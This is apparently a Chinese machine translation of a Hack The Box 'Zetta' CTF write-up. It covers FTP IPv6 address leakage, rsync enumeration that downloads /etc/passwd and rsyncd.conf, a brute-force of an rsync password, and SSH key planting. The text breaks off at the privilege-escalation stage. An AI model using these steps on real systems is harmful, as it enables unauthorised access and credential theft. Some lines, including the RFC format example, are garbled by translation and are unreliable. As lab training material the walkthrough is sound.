# HacktheBox — Zetta

> 原文：<https://infosecwriteups.com/hackthebox-zetta-ed351dafd1b4?source=collection_archive---------0----------------------->

这是一篇关于我如何从 [Hack the Box](http://hackthebox.eu) 解决 Zetta 的文章，这是一个在线平台，在这里你可以玩各种 CTF 并练习你的渗透测试技能。



https://www.hackthebox.eu/home/machines/profile/204

像往常一样，我试图解释我是如何从机器上理解这些概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。

# TL；速度三角形定位法(dead reckoning)

我喜欢 Zetta 机器，因为每一步对我来说都是新的。我花了很长时间才找到这个箱子。它的难度被评定为难。

首先，从 FTP 服务启动连接，泄漏 IPv6 地址。扫描 IPv6 地址显示服务 rsync，它允许我上传/下载文件，导致更多的枚举。然后，我创建一个 bash 脚本来猜测用户的密码。对于 root，我使用 logger 命令从日志记录中利用 PostgreSQL 注入，并查看用户的待办事项文件来确定 root 的密码方案。从这个困难的盒子里，我绝对学到了很多。

# 侦察

我首先运行一个 nmap 扫描:

```
# nmap -p- -oA nmap/allports 10.10.10.156PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

看到服务 ftp、ssh 和 http 对 TCP 开放，我运行了另一个 nmap，这次使用版本扫描(-sV)和默认的 nmap 脚本(-sC):

```
nmap -sV -sC -p21,22,80 -oA nmap/initial 10.10.10.156PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:82:60:c1:8c:8d:39:d2:fc:8b:99:5c:a2:47:f0:b0 (RSA)
|   256 1f:1b:0e:9a:91:b1:10:5f:75:20:9b:a0:8e:fd:e4:c1 (ECDSA)
|_  256 b5:0c:a1:2c:1c:71:dd:88:a4:28:e0:89:c9:a3:a0:ab (ED25519)
80/tcp open  http    nginx
|_http-title: Ze::a Share
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

看到正在运行的服务和它们的版本，我首先尝试连接到 FTP 来检查匿名登录，但这是横幅:



它告诉我们，这是一个私人系统，不允许匿名登录。还要注意，它提到 IPv6 连接在这个服务器上也是受欢迎的。由于端口 80/http 是开放的，其标题为 Ze::a Share(另一个线索是，我们将在这里处理有关 IPv6 的一些内容，因为“::”用于代替 IPv6 中的许多零)，所以我检查了它。

## 超文本传送协议

检查页面，有一些事情要注意。它提到他们提供 NAS(网络访问存储)服务。


它也提到了他们做的事情。唯一有意义的就是原生 FTP。其中提到了使用 FXP 和 RFC2428 的 FTP。



它还提到了“双栈”，我记得这是大学时向我介绍的一个术语，指的是设备可以同时使用 IPv4 和 IPv6 地址。



该团队是电视剧《IT 人群》中的人物。我可以在这里找到一些可能的用户。


该页面还提到了我可以在 FTP 服务器上使用的凭证。



他们也有一个联络区，但是没有功能。



查看页面的源代码，有一个生成随机 32 个字符串的脚本。这是用户名和密码字段。它表示 FTP 的登录可以是 32 个字符以内的任何内容。



## RFC 2428

他们提到了 RFC 2428。RFC 代表征求意见。引用自维基百科:

> RFC 由工程师和计算机科学家以 T2 备忘录的形式撰写，描述适用于互联网和互联网连接系统工作的方法、行为、研究或创新。提交它或者是为了[同行评审](https://en.wikipedia.org/wiki/Peer_review)或者是为了传达新概念、信息，或者偶尔是工程幽默。

*RFC2428* 提到了以下内容:

> 随着 Internet 协议第 6 版的部署，网络地址将不再是 32 位。本文详细说明了 FTP 的扩展，这些扩展将允许该协议在 IPv4 和 IPv6 上工作。
> 
> 本文档提供了 FTP 为 IPv4 以外的网络协议传递数据连接端点信息的方式的规范。在本规范中，FTP 命令 PORT 和 PASV 分别替换为 EPRT 和 EPSV。
> 
> EPRT 命令允许为数据连接指定扩展地址
> 。扩展地址必须由
> 网络协议以及网络和传输地址组成。EPRT 的
> 格式是:

*   <space><d><net-prt><d><net-addr></net-addr></d></net-prt></d></space>

## FTP 快速回顾:

FTP 代表文件传输协议。它允许您在两台主机之间传输文件。它使用 2 个端口，一个用于发送命令(命令端口)，一个用于传输数据(数据端口)。数据端口因使用的模式而异。

**主动模式:**

*   客户机(在本例中是我的机器)使用一个随机端口连接到 FTP 服务器的端口 21(Zetta box)。
*   客户端告诉 FTP 服务器(Zetta box)“将您的端口 20 连接到我将定义的端口，并向该端口发送数据”。这可以使用 IPv4 的 PORT 命令和 IPv6 的 EPRT 命令来完成
*   客户端向 FTP 服务器的端口 21 发送命令，服务器从端口 20 向客户端定义的端口发送数据
*   数据连接由服务器发起

**被动模式:**

*   客户端使用随机端口连接到 FTP 服务器的端口 21。
*   客户端询问 FTP 服务器“您打算为我们的数据连接打开哪个端口？请告诉我，我将连接到它”。这是通过 PASV 指挥部完成的。
*   客户端确认数据连接打开的端口，并连接到该端口进行数据传输。
*   数据连接由客户端发起

知道了这一切，这一切都导致了一个线索，我可以泄漏机器的 IPv6 地址，它可能会泄露正在运行的其他服务。


为了验证 FTP 登录是否接受任何 32 个字符的用户名和密码，我使用 32 个字符进行了验证，并且成功了。



然后，我试图了解如何在基于 RFC 的 IPv6 中使用端口。我还设置了我的监听器，给它我的 IPv6 地址，并运行一个 LIST 命令(比如 dir 或 ls)。我从盒子里得到一个连接，显示出它的 IPv6 地址。



## 枚举 IPv6 地址

我尝试 ping IPv6 地址，得到回应。



然后，我尝试使用主机的 IPv6 地址对其运行 nmap 扫描:

```
# nmap -6 -sV -sC dead:beef::250:56ff:feb9:5dfd
```

结果显示与前一次扫描相同的端口和相同的 ssh-hostkey(对于每个框应该是唯一的)。



我还试图运行 TCP 所有端口扫描，它显示端口 8730 是开放的。

```
# nmap -6 -p- dead:beef::250:56ff:feb9:5dfdPORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8730/tcp open  unknown
```

然后，我运行了版本扫描和默认脚本扫描，以了解有关该服务的更多信息。扫描显示端口 8730 上运行的服务是 rsync。

```
# nmap -6 -p 8730 -sV -sC dead:beef::250:56ff:feb9:5dfdPORT     STATE SERVICE VERSION
8730/tcp open  rsync   (protocol version 31)
```

## RSYNC

根据手册页，rsync 是一个快速、通用的远程(和本地)文件复制工具。我枚举 rsync 上可用模块的一种方法是通过 Metasploit。通过使用辅助/scanner/rsync/modules_list，我可以看到找到了 9 个模块。



我还可以使用以下语法连接到 rsync 守护进程:

```
rsyncrsync://IPADDR:RsyncPort
```

我尝试连接到 rsync 服务。请注意，在处理 IPv6 地址时，您应该将它们放在括号内:

```
rsync rsync://[dead:beef::250:56ff:feb9:5dfd]:8730
```

rsync 服务器横幅和可用模块提示我，同时提到连接到服务器是非法的。知道这是一个 CTF，我可以忽略警告。



请注意，列出的模块通常位于 Linux 目录“/”下。我试着列出其中一个模块，但是被拒绝了。



“/”下缺少的目录之一是/etc。我尝试在/etc 下列出文件。我好像有权限。



我试图检查我是否有权访问通常被配置为任何人都可以读取的文件。其中之一是/etc/passwd 文件。它具有最小权限，因为系统中的许多进程需要读取权限来确定某些用户的权限。说到这里，我试着下载了/etc/passwd，成功了。我能看到用户，其中一个是罗伊。我将副本下载到我的本地计算机:

```
rsync -r rsync://[dead:beef::250:56ff:feb9:5dfd]:8730/etc/passwd .
```



深入查看 rsync 的文档，我可以检查配置文件是否在/etc/rsyncd.conf 中



我拿了一份，在本地阅读:



默认情况下，Rsync 监听端口 873。我可以在配置文件中看到它被修改为监听端口 8730。这就是 nmap 最初无法识别正在运行的服务的原因。检查模块的配置，将/etc 配置为排除。git 和 to 不被列出。但是这个配置并不妨碍任何人猜测模块的名称。



在配置文件的下半部分，有一个名为 home_roy 的模块，它映射到/home/roy 目录。



知道只有罗伊可以访问它，我需要能够得到罗伊的密码。我尝试与 home_roy 模块同步，它要求我输入密码。



我能猜出 roy 的密码，但是有提示，导致手动操作要花费更多的时间。我研究了发送密码的其他方法，发现可以通过设置环境变量来实现。我使用 bash 脚本诉诸暴力。

[zetta-rsync-brute](https://gist.github.com/red0man/0d1a13736e26e940ec11289b5fe0760b)

运行脚本:



脚本在密码“计算机”处停止。



我尝试同步到 home_roy，现在可以看到/home/roy 下的文件。然后，我将尝试 rsync 一个. ssh 目录，在 authorized_keys 文件下包含我的公钥，并尝试将 ssh 放入这个框中。



我首先使用 ssh-keygen 创建一个密钥对:



然后，我将我的公钥重命名为 authorized_keys，使用 rsync 删除整个 ssh 文件夹，并更改我的私钥的权限。



我使用 ssh 登录，现在可以读取 user.txt。



# 罗伊→波斯特格里斯

请注意，有一个. tudu.xml 文件:



我拿了一份，用浏览器打开了它。其中提到 Roy 还没有完成对 rsyncd.conf 的返工，这就是/etc 可以访问的原因。



还有一个部分表明他正在使用 rsyslog，并且日志正在被推送到 DB。

